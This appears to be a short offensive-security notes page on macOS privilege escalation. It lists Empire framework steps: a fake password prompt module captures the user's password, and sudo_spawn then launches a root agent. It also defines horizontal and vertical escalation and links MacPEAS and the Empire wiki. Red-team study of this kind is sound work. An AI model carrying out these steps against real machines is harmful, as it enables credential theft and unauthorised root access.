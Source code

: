 # Privilege escalation on macOS

## Attack tree

```text
1 Empire agent running on macOS (AND)
2 Interact with agent
    2.1 > usemodule (double tab to list modules available) (AND)
    2.2 > usemodule collection/osx/prompt (not opsec safe, we'll be leaving traces)
    2.3 > execute (and copy user password)
    2.4 > Back
    2.5 > usemodule privesc/multi/sudo_spawn (executes another stager with admin priviliges, and requires a password)
    2.6 > info (to see all options)
    2.7 > set Password [user password]
    2.8 > set Listener [value] (http in our case)
    2.9 > execute

```

## Notes

* This method does not rely on programs and exploits and is highly likely to work as users are trained to enter their passwords regularly for the Apple Store. A new agent appears, one that is root. 
* This example uses macOS but a similar process works for other OS as well. The modules will be different tnough.
* In horizontal privilege escalation an adversary expands privileges by taking over another account.
* In vertical privilege escalation an attacker attempts to gain more permissions or access with an existing compromised account.

## Tools

* [MacPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) - Just execute `linpeas.sh` in a MacOS system and the MacPEAS version will be automatically executed

## Cheatsheets

* [Empire wiki](https://bc-security.gitbook.io/empire-wiki/)